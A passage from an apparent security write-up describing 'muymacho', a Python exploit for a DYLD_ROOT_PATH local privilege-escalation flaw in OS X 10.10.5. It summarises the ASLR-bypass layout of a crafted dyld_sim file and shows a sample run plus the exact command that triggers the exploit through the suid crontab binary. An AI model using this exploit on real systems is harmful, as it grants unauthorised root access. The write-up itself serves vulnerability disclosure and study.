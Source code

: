 This section combines everything we've figured out this far. In summary:

* Our goal is to remap *dyld_target*, which is the page contain the mmap system call within dyld
* We use 32 segments spanning 0x20000000 bytes to bypass ASLR
    * We implement a top down strategy
    * The first segment has a *vmaddr* of 0x7ffe6ec1d000
    * Subsequent segments have smaller (0x1000000) *vmaddr* 
* All the segments point to the same 4096 pages of payload
    * All pages contain a *jmp rax* instruction at offset 0xdc6
    * The base page contains our shellcode

*muymacho* is written in python and is available on [github](https://github.com/luismiras/muymacho). There is a very minimal Mach-O implementation in the *MachoFile* and *LC_SEGMENT_64* classes. They create a dyld_sim file containing 32 segments, all pointing to the payload. 

*muymacho* is passed a base directory and will create the necessary directory structure and dyld_sim file. The actual exploitation requires setting DYLD_ROOT_PATH to the base directory and executing a suid binary. A sample run is shown below.


{% highlight shell-session %}

user@yosemite:~/tmp$ python muymacho.py ~/tmp
muymacho.py - exploit for DYLD_ROOT_PATH vuln in OS X 10.10.5
Luis Miras @_luism

[+] using base_directory: /Users/user/tmp
[+] creating dir: /Users/user/tmp/usr/lib
[+] creating macho file: /Users/user/tmp/usr/lib/dyld_sim
    LC_SEGMENT_64: segment 0x00    vm_addr: 0x7ffe6ec1d000
    LC_SEGMENT_64: segment 0x01    vm_addr: 0x7ffe6dc1d000
    LC_SEGMENT_64: segment 0x02    vm_addr: 0x7ffe6cc1d000
    LC_SEGMENT_64: segment 0x03    vm_addr: 0x7ffe6bc1d000
    LC_SEGMENT_64: segment 0x04    vm_addr: 0x7ffe6ac1d000
    LC_SEGMENT_64: segment 0x05    vm_addr: 0x7ffe69c1d000
    LC_SEGMENT_64: segment 0x06    vm_addr: 0x7ffe68c1d000
    LC_SEGMENT_64: segment 0x07    vm_addr: 0x7ffe67c1d000
    LC_SEGMENT_64: segment 0x08    vm_addr: 0x7ffe66c1d000
    LC_SEGMENT_64: segment 0x09    vm_addr: 0x7ffe65c1d000
    LC_SEGMENT_64: segment 0x0a    vm_addr: 0x7ffe64c1d000
    LC_SEGMENT_64: segment 0x0b    vm_addr: 0x7ffe63c1d000
    LC_SEGMENT_64: segment 0x0c    vm_addr: 0x7ffe62c1d000
    LC_SEGMENT_64: segment 0x0d    vm_addr: 0x7ffe61c1d000
    LC_SEGMENT_64: segment 0x0e    vm_addr: 0x7ffe60c1d000
    LC_SEGMENT_64: segment 0x0f    vm_addr: 0x7ffe5fc1d000
    LC_SEGMENT_64: segment 0x10    vm_addr: 0x7ffe5ec1d000
    LC_SEGMENT_64: segment 0x11    vm_addr: 0x7ffe5dc1d000
    LC_SEGMENT_64: segment 0x12    vm_addr: 0x7ffe5cc1d000
    LC_SEGMENT_64: segment 0x13    vm_addr: 0x7ffe5bc1d000
    LC_SEGMENT_64: segment 0x14    vm_addr: 0x7ffe5ac1d000
    LC_SEGMENT_64: segment 0x15    vm_addr: 0x7ffe59c1d000
    LC_SEGMENT_64: segment 0x16    vm_addr: 0x7ffe58c1d000
    LC_SEGMENT_64: segment 0x17    vm_addr: 0x7ffe57c1d000
    LC_SEGMENT_64: segment 0x18    vm_addr: 0x7ffe56c1d000
    LC_SEGMENT_64: segment 0x19    vm_addr: 0x7ffe55c1d000
    LC_SEGMENT_64: segment 0x1a    vm_addr: 0x7ffe54c1d000
    LC_SEGMENT_64: segment 0x1b    vm_addr: 0x7ffe53c1d000
    LC_SEGMENT_64: segment 0x1c    vm_addr: 0x7ffe52c1d000
    LC_SEGMENT_64: segment 0x1d    vm_addr: 0x7ffe51c1d000
    LC_SEGMENT_64: segment 0x1e    vm_addr: 0x7ffe50c1d000
    LC_SEGMENT_64: segment 0x1f    vm_addr: 0x7ffe4fc1d000
[+] building payload
[+] dyld_sim successfully created

To exploit enter:
  DYLD_ROOT_PATH=/Users/user/tmp crontab

user@yosemite:~/tmp$ DYLD_ROOT_PATH=/Users/user/tmp crontab